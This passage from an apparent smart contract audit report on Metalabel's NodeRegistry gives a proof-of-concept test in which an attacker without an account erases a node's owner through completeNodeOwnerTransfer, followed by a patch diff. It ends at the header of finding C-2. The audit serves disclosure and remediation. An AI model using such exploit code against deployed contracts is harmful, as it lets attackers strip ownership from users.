 #### **Proof Of Concept**

Place the following test case in [test/NodeRegistry.spec.ts](https://github.com/metalabel/metalabel-contracts-v1/blob/effe2e89996d6809c5ec6c6da10c663246f91fc1/test/NodeRegistry.spec.ts)

```js
const [user, attacker] = await ethers.getSigners()

// User creates an account.
await accountRegistry.createAccount(user.address, '')
const userAccountId = await accountRegistry.resolveId(user.address)

// User creates a node and sets their Metalabel account as the owner of this node.
await createNode({ owner: userAccountId.toNumber() })
const userNodeId = await nodeRegistry.totalNodeCount()

// Assert setup.
expect(await nodeRegistry.ownerOf(userNodeId)).to.eq(userAccountId)

// Attacker that has no Metalabel account calls nodeRegistry.completeNodeOwnerTransfer(userNodeId).
expect(await accountRegistry.resolveId(attacker.address)).to.eq(0)
await nodeRegistry.connect(attacker).completeNodeOwnerTransfer(userNodeId)

// Attacker deletes the owner of the user's node. Exploit is successful.
expect(await nodeRegistry.ownerOf(userNodeId)).to.eq(0)
```

#### **Recommended Mitigation Steps**

Ensure that `NodeRegistry.completeNodeOwnerTransfer(uint64 id)` can not be called when `pendingNodeOwnerTransfers[id]` is 0:

```diff
/// @notice Complete the 2-step node transfer process. Can only be called by
/// by the new owner
function completeNodeOwnerTransfer(uint64 id) external {
    uint64 newOwner = pendingNodeOwnerTransfers[id];
    uint64 accountId = accounts.resolveId(msg.sender);

+   if (newOwner == 0) revert NodeOwnerTranferNotStarted();
    if (newOwner != accountId) revert NotAuthorizedForNode();

    nodes[id].owner = newOwner;
    delete pendingNodeOwnerTransfers[id];
    emit NodeOwnerSet(id, newOwner);
}
```

### [C-2] An attacker can steal ownership of a node that has a group node

#### **Context**

- [contracts/NodeRegistry.sol#L222-L259](https://github.com/metalabel/metalabel-contracts-v1/blob/effe2e89996d6809c5ec6c6da10c663246f91fc1/contracts/NodeRegistry.sol#L222-L259)
